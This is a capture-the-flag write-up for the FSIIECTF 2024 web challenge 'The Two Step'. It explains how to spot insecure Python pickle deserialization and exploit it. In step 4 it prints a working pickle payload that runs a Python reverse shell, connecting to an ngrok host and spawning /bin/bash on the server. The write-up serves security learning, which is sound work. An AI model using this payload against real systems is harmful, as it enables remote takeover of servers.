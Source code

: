 ```yaml
---
title: The Two Step
description: Exploit insecure deserialization to gain shell access and retrieve the flag.
date: 2024-09-08 00:00:00+0000
categories:
   - FSIIECTF 2024
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# The Two Step CTF Challenge Writeup

## Challenge Information
- **Name**: The Two Step
- **Points**: 1
- **Category**: Web
- **Objective**: Exploit insecure deserialization to gain shell access and retrieve the flag.

## Solution
To solve the "The Two Step" challenge, follow these steps:

1. **Initial Analysis**:
   - Upon visiting the website, the initial impression might be a redirect vulnerability, but further inspection shows it's not the case.


      ![Potential Redirect Vuln](<potential redirect vuln.png>)

2. **Identifying Insecure Deserialization**:
   - Inspect the source code and identify that it uses Python's pickle module for deserialization.
   - Note that deserialization is insecurely handled, allowing for arbitrary code execution if exploited correctly.


      ![Source COde](<source code.png>)

3. **Crafting the Payload**:
   - Attempt to use standard pickle payloads. Initial attempts may only return numbers or unintended outputs.


      ![Simple Pickle Payload](<tried simple pickle payload.png>)

   - Instead, craft a payload designed to spawn a shell. Initially tried a simple `nc` shell, but it didnt work, maybe `nc` is blocked

4. **Using an Alternative Shell**:
   - Since `nc` may not be executable, use a Python-based reverse shell to establish a connection.
   - Example Python reverse shell payload:
     ```python
      import pickle, os, base64
      class P(object):
         def __reduce__(self):
            return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.ap.ngrok.io",13278));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))
      print(base64.b64encode(pickle.dumps(P())))
     ```

5. **Gaining Shell Access**:
   - Send the crafted payload to the server to get a reverse shell.
   - Once you have shell access, escalate privileges if necessary. Since you’re already root, you should be able to retrieve the flag.

      
      ![Shell](<reverse shell.png>)

6. **Flag Retrieval**:
   - With root access, locate and read the flag file.


      ![Flag](flag.png)

